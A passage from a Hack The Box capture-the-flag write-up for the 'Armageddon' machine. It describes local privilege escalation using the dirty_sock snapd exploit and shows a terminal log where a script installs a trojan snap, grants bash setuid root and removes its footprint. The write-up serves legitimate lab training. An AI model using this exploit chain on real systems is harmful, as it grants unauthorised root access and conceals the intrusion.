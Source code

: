 Okay, let's google about exploits related with sudo.
I found that one rigth here:
https://github.com/initstring/dirty_sock

But we can't just execute that script as it does not work.

I used the trojan in the dirty_sockv2.py and write a script in order to just execute and become root. You can find it [here](https://git.io/dirty_sock)

```bash
[brucetherealadmin@armageddon shm]$ chmod u+x lpe.py 
[brucetherealadmin@armageddon shm]$ ./lpe.py 
[+] Creating file...
[+] Writing base64 decoded trojan...
[+] Installing malicious snap...
dirty-sock 0.1 installed

[+] Deleting snap package...
[+] Granting setuid perms to bash as root...
[+] Here comes the PoC:
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[+] Deleting the previously created user...
[+] Becoming root...
.bash-4.2> id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) euid=0(root) egid=0(root) groups=0(root),1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
.bash-4.2> cut -c1-21 /root/root.txt
ced45363f68f009277256
.bash-4.2> exit
exit
[+] Removing footprint...

    DONE!

[brucetherealadmin@armageddon shm]$ 
```

And we sucessfully pwned the box.

![](/src/gifs/pwned.gif)

---

# Closing
If you liked the writeup, please consider [suporting](https://www.buymeacoffee.com/f4T1H) a student to get `OSCP` exam and __+respecting__ my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">
  <img src="https://www.hackthebox.eu/badge/image/184235" alt="f4T1H">
  </img>
</a>
<br>
<a href=https://www.buymeacoffee.com/f4T1H>
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>
